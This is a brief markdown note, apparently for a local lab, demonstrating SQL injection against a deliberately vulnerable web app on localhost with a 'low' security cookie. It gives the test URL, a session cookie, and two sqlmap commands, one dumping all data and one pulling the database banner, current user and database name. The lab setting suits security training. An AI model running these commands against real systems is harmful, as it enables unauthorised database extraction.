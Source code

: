 # SQL Injection Demo

## URL to Test

[http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#](http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#)

## Cookie Data to Send

- PHPSESSID: `0bf460cc2a7016175bb93c7b6e82c30b`
- security: `low`

## Attack to Show All Data

```bash
sudo sqlmap -u "http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=0bf460cc2a7016175bb93c7b6e82c30b;security=low" --all
```

## Attack to Get Specific Data

```bash
sudo sqlmap -u "http://localhost:4280/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=0bf460cc2a7016175bb93c7b6e82c30b;security=low" --banner --current-user --current-db
```
